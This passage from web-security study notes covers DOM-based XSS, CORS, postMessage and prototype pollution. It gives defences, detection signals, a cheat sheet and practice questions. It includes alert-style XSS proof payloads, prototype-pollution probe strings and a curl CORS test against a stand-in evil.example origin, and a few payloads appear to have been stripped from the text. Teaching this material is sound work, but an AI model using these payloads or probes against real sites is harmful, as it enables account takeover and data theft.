- Default to **`textContent`**; gate any `innerHTML` behind **DOMPurify**.
- Enforce a **strict CSP** with nonces/hashes, `object-src 'none'`, `base-uri 'none'`, and
  **Trusted Types**.
- Set session cookies **`HttpOnly`** (blocks JS cookie theft) and **`Secure`** +
  **`SameSite`** (limits CSRF); do not store long-lived tokens in `localStorage`.
- Validate **`postMessage` origins**; lock CORS to explicit origins, never reflect `Origin`
  with credentials.
- Prevent prototype pollution: null-prototype maps, key blocklists, `Object.freeze`.

**Detect**

| Signal | Where | Indicates |
|--------|-------|-----------|
| CSP `report-uri`/`report-to` violations | Server log of CSP reports | Attempted/blocked injection |
| Outbound requests to unknown hosts from page JS | Browser/proxy/RUM | XSS exfil beacon |
| Anomalous `Origin` headers hitting CORS endpoints | WAF/API logs | Cross-origin theft probing |
| Sudden `__proto__`/`constructor` in query strings | WAF/API logs | Prototype-pollution probing |
| Unexpected `<script>`/`onerror` in stored fields | DB/content scanning | Stored XSS payloads |

**Blue team usage:** CSP in report-only mode is a live XSS *detector* even before it blocks
anything — a spike in violation reports referencing inline handlers is an active attack
signal. Pair it with Subresource Integrity (`integrity="sha384-..."`) on third-party
scripts so a compromised CDN can't silently swap in malicious code.

## Final Revision — Recap

- JavaScript runs single-threaded on an **event loop**; every global is a property of
  **`window`**; scripts block HTML parsing unless `async`/`defer`.
- The **DOM** is the live object tree of the page. **`textContent` is safe; `innerHTML`
  parses markup and is the primary DOM-XSS sink.** A bare `<script>` won't run via
  `innerHTML` — use ``/`<svg onload>`.
- Client-side bugs are **source → sink** data flows. Sources: `location.hash/search`,
  `postMessage`, `referrer`, `window.name`, storage. Sinks: `innerHTML`, `eval`,
  `document.write`, `setAttribute`, `location`.
- **DOM XSS** often never touches the server (fragment-driven), making it invisible to
  server logs and WAFs. Impact = cookie/token theft, authenticated `fetch`, account
  takeover.
- **Same-Origin Policy** = scheme+host+port; blocks cross-origin *reads*. **CORS** relaxes
  it — reflected `Origin` + `Allow-Credentials: true` is a critical misconfig.
- **postMessage** handlers must check `event.origin`; **prototype pollution** (`__proto__`)
  plus a gadget escalates to XSS/RCE.
- Defenses: **DOMPurify**, **strict CSP + Trusted Types**, **HttpOnly/Secure/SameSite
  cookies**, CORS allowlists, SRI, and null-prototype maps.

## Cheat Sheet / Quick Reference

**Safe vs dangerous sinks**

```
SAFE:      el.textContent = x        el.setAttribute("class", x)
DANGEROUS: el.innerHTML = x          el.outerHTML = x
           el.insertAdjacentHTML()   document.write(x)
           eval(x)  Function(x)  setTimeout("code", t)
           a.href = "javascript:..." location = x
```

**DOM-XSS proof payloads (fragment or param)**

```

<svg onload=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
<iframe src=javascript:alert(document.domain)>
```

**Recon in DevTools**

```
Ctrl+Shift+F            search ALL loaded scripts for sinks
Object.keys(window)     find exposed globals / secrets
{ } Pretty print        de-minify a bundle in Sources
DOM breakpoints         break when a subtree/attribute changes
```

**CORS misconfig test**

```bash
curl -sI https://t/api -H "Origin: https://evil.example" | grep -i access-control
# reflected origin + allow-credentials:true  == vulnerable
```

**Prototype pollution probes**

```
?__proto__[x]=y            ?constructor[prototype][x]=y
JSON: {"__proto__":{"isAdmin":true}}
```

**Key defensive headers**

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-…'; object-src 'none'; base-uri 'none'
Set-Cookie: session=…; HttpOnly; Secure; SameSite=Lax
```

**Memory hooks**

- **"textContent tells, innerHTML executes."** Choose the safe one by default.
- **"Fragment never phones home."** `#`-driven DOM-XSS is invisible server-side.
- **"Origin = scheme + host + port."** All three must match, or SOP blocks the read.
- **"Reflected Origin + credentials = game over."** The CORS bug to look for.
- **"`__proto__` poisons everyone."** One write hits every object in the runtime.

## Common Pitfalls & Misconceptions

- **"`innerHTML` runs `<script>`."** It does not — use event-handler payloads instead.
- **"HttpOnly stops XSS."** It stops *cookie theft via JS*, not XSS itself; an attacker can
  still make authenticated `fetch` calls from the origin.
- **"`localStorage` is a safe place for JWTs."** Any XSS reads it instantly (no `HttpOnly`
  equivalent). Prefer `HttpOnly` cookies for session tokens.
- **"DOM-XSS shows up in server logs."** Fragment-based DOM-XSS never reaches the server.
- **"CSP `'unsafe-inline'` is fine if I'm careful."** It defeats CSP's core XSS protection;
  use nonces/hashes.
- **"Encoding output always prevents XSS."** Context matters — HTML-encoding is useless if
  the sink is a `javascript:` URL or an `eval`. Match the encoding to the sink.
- **"A wildcard CORS is the dangerous one."** The spec blocks `*` with credentials;
  *reflected origin* + credentials is the real bug.

## Practice Labs & Resources

- **PortSwigger Web Security Academy — DOM-based XSS** track: reflected-into-sink,
  `hashchange`, `document.write`, jQuery `$()` selector sinks, and the AngularJS sandbox
  labs — the definitive DOM-XSS practice, free.
- **PortSwigger — CORS** and **Client-side prototype pollution** labs: reflected-origin
  theft and pollution-to-XSS gadgets, with **DOM Invader** (built into Burp's browser) to
  automate source/sink discovery.
- **Google XSS Game (xss-game.appspot.com)** and **prompt.ml**: bite-size payload-crafting
  and filter-bypass practice.
- **picoCTF / HackTheBox web challenges**: many "Web" challenges are pure client-side —
  read the JS, find the source→sink, weaponize.
- **OWASP DOM XSS Prevention Cheat Sheet** and **Trusted Types docs (web.dev)**:
  authoritative defensive reference.
- **DOMPurify (GitHub)** and **CSP Evaluator (Google)**: paste a policy into CSP Evaluator
  to see exactly which directives are bypassable.

### Practice questions

1. A page does `el.innerHTML = "Hi " + location.hash.slice(1)`. Explain why
   `#<script>alert(1)</script>` fails but `#` succeeds, and name
   the property change that fixes the bug.
2. Given a response with `Access-Control-Allow-Origin: https://evil.example` and
   `Access-Control-Allow-Credentials: true`, write the `fetch` an attacker page would use to
   read the victim's `/api/me`, and state why a wildcard `*` could **not** be used here.
3. You find `window.addEventListener("message", e => frame.src = e.data.url)`. Identify the
   two independent defects and rewrite the handler securely.
4. Explain, using the source→sink model, why DOM-based XSS frequently does not appear in
   server access logs, and how you would still detect it as a defender.
5. Given `?__proto__[template]=` triggers an alert on a page,
   describe the gadget that must exist in the app for this to work and two code-level fixes.
6. A reflected input renders `{{7*7}}` as `49` in the page. State what vulnerability class
   this indicates (and why it is *not* classic HTML XSS), give the framework most associated
   with it, and explain why HTML-entity output encoding fails to stop it.
7. A React component renders user comments with
   `<div dangerouslySetInnerHTML={{__html: comment}} />`. Explain the one-line change that
   removes the XSS, and when a developer would legitimately need to keep raw HTML (and how to
   do so safely).

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/programming-for-security/06-javascript-and-the-dom-for-web-security), with comments and the latest edits.*
